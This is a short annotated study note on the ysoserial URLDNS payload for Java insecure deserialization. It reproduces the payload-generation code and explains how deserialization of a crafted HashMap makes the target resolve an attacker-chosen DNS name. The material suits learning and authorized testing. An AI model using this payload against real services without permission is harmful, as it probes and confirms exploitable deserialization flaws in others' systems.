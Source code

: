 The payload doesn’t result in code execution.

It makes the deserializing endpoint **resolve an arbitrary DNS name**.

This is rather a low-impact result of insecure deserialization, but on the other hand it uses **Java built-in features**, so it’s likely to work **almost every case**. 

Allows for **easier confirmation** of insecure deserialization.

[https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java)

```jsx
// This code is called when the payload is created
public Object getObject(final String url) throws Exception {

    // Avoid DNS resolution during payload creation
    URLStreamHandler handler = new SilentURLStreamHandler();

    // Create the HashMap that will contain the URL
    // HashMap.readObject() -> HashMap ht = new HashMap()
    HashMap ht = new HashMap(); // This method is called during the deserialization of the HashMap object

    // Create the URL to use as a key in the HashMap
    // HashMap.putVal()
    URL u = new URL(null, url, handler); // The URL is used as a key in the HashMap

    // Adding the URL as a key and any serializable value to the HashMap
    // HashMap.putVal()
    ht.put(u, url); // During deserialization, HashMap.putVal() is called

    // Reconfigure the URL's hashCode
    Reflections.setFieldValue(u, "hashCode", -1); // Resets the hashCode so that the next call to hashCode() triggers DNS resolution

    return ht; // Returns the HashMap to be used as the payload
}

// This class is used to avoid DNS resolution during object creation
static class SilentURLStreamHandler extends URLStreamHandler {

    protected URLConnection openConnection(URL u) throws IOException {
        return null;
    }

    protected synchronized InetAddress getHostAddress(URL u) {
        return null;
    }
}

// During the deserialization of the object on the target:
    // 1. HashMap.readObject()
    // 2. HashMap.putVal()
    // 3. HashMap.hash()
    // 4. URL.hashCode() -> DNS resolution occurs here
```
